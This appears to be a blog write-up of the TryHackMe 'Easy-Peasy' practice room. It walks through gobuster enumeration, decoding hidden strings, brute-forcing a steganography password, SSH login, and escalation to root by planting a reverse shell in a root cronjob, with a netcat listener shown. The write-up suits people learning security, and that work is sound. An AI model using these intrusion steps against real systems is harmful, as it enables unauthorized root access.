 ```yaml
---
layout: post
title: Writeup - Easy-Peasy
description: "Walkthrough of Easy-Peasy of TryHackme"
tags: [TryHackeMe, EasyPeasy, Hacking, pwned, nmap, gobuster, steganography, cronjob]
author: Fr3akazo1d!
---
```

# Walkthrough

Used gobuster 
- gobuster dir -u http://10.10.201.81 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | tee gobuster-output.txt

found hidden directory

after researching the site, nothing interesting was found on the website. 

But for the answer of TryHackMe, something has to be on the site. 
So i keep digging around on the webserver. 

I tried another gobuster run on the hidden directory. 

Found another directory. 
Was another picture and then i checked the source code. In the Source code there was a hidden paragraph:  
```html
</head>
<body>
<center>
<p hidden>Z**********************=</p>
</center>
</body>
</html>
```


No i have my first flag, the code was Base64. 
we can decode the base64 string in the terminal:
```sh
┌──(fr3akazo1d㉿fr3ak0ut)-[~/PenetrationTesting/THM/Boxes/EasyPeasy]
└─$ echo "************************" | base64 -d 
flag{f********g}
```

After a lot of seraching on Port 80 on the Server, i was swtiching to the other Webserver witch is running on port 65524. 


On this webserver i also run a gobuster run, and found robots.txt file. 
looked inside the robots.txt file and found a hash. 

```html
User-Agent:*
Disallow:/
Robots Not Allowed
User-Agent:a18672860d0510e5ab6699730763b250
Allow:/
This Flag Can Enter But Only This Flag No More Exceptions
```


The hash was crackable with only one website. after decypting the hash we got our second flag. 

On The apache website there is the third flag locatet, we have to look closely. :)

For the hidden directory. i was going through the source code of the apache server. i found an interessting part with a string who looks like a hash:
<p hidden>its encoded with ba....:O**********************u</p>

i was triying to decrypt the hash with base64, but it was no base64 hash. I tried different ways till i found the right base decoder. 
The string gave me the name of the hidden directory. 

http://10.10.249.230:65524/n***************r/

on this page we found another hash. Whitch we have to decrpt. 
Also a picture was provided on this site. 

Downloaded the picture and started brute force attack on the picture with the txt file which we have donwloaded from tryhackem. 

a other way is to crack the password with hashcat, as a hint from tryhackme. the has is GOST.

The txt file was containg the password, and extracted a new text file where a username and password was stored. 
```sh
┌──(fr3akazo1d㉿fr3ak0ut)-[~/PenetrationTesting/THM/Boxes/EasyPeasy]
└─$ s********** binarycodepixabay.jpg easypeasy.txt                                                               1 ⨯
S********** 2.0.9 - (https://github.com/Paradoxis/s**********)
Copyright (c) 2020 - Luke Paris (Paradoxis)

Counting lines in wordlist..
Attacking file 'binarycodepixabay.jpg' with wordlist 'easypeasy.txt'..
Successfully cracked file with password: m******************b
Tried 3585 passwords
Your file has been written to: binarycodepixabay.jpg.out
m******************b
```

```sh
bat binarycodepixabay.jpg.out 
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: binarycodepixabay.jpg.out
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ username:b****g
   2   │ password:
   3   │ 01101001 ******** ******** ******** ******** ******** ******** ******** ******** ******** ******** ******** *
       │ ******* ******** ******** ******** ******** ******** ******** ******** ******** ******** ******** ******** **
       │ ****** ******** ******** 01111001
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

The password was decoded in binary. after decoding we have now the password for the user to the target. 

```sh
i**************************y
```

We can now login with the user and read the user.txt file. 

```sh
┌──(fr3akazo1d㉿fr3ak0ut)-[~/PenetrationTesting/THM/Boxes/EasyPeasy]
└─$  ssh 10.10.249.230 -p 6498 -l b****g -p i**************************y
*************************************************************************
**        This connection are monitored by government offical          **
**            Please disconnect if you are not authorized        **
** A lawsuit will be filed against you if the law is not followed      **
*************************************************************************
b****g@10.10.249.230's password: 
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
b****g@kral4-PC:~$ ls
user.txt
b****g@kral4-PC:~$ cat user.txt 
User Flag But It Seems Wrong Like It`s Rotated Or Something
s**t{a**************y}
```

After some researching i came a cross the cronjob. 


```sh
b****g@kral4-PC:/$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *  * * * root    cd / && run-parts --report /etc/cron.hourly
25 6  * * * root  test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6  * * 7 root  test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6  1 * * root  test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
```

on cronjob is running as root. I added a reverse shell to the file and a listener on my machine. 


```sh
b****g@kral4-PC:/$ nano var/www/.mysecretcronjob.sh 
```


# root shell

After some seconds i got a root shell. now we can read the root.txt file


```sh
┌──(fr3akazo1d㉿fr3ak0ut)-[~/PenetrationTesting/THM/Boxes/EasyPeasy]
└─$ nc -lnvp 8080
listening on [any] 8080 ...
connect to [10.9.170.39] from (UNKNOWN) [10.10.249.230] 53294
bash: cannot set terminal process group (1509): Inappropriate ioctl for device
bash: no job control in this shell
root@kral4-PC:/var/www# cat root.txt  
cat root.txt 
flag{6******************************5}
root@kral4-PC:~# 
```

summary

This box was a lot enumeration with gobuster. Sometimes i was stucked at this. I tried some different ways but i was really fustrated that i read another writeup for the room. 
